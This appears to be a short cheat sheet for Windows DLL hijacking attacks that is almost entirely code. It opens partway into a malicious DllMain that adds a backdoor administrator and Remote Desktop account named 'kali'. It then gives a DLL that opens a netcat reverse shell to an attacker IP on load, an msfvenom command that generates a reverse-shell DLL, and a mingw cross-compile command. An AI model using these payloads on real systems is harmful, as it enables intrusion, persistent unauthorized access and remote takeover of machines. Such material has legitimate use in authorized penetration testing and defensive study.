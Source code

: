 ```
  	    i = system ("net user kali password123! /add");
  	    i = system ("net localgroup administrators kali /add");
  	    i = system ("net localgroup \"Remote Desktop Users\" kali /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

reverse shell code
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
    HANDLE hModule,           // Handle to DLL module
    DWORD ul_reason_for_call, // Reason for calling function
    LPVOID lpReserved         // Reserved
)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            system("nc.exe 192.168.x.x 4444 -e cmd.exe");
            break;
        }
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

generate msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=x -f dll -o EnterpriseServiceOptional.dll
```

Cross-Compile the C++ code
```
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```
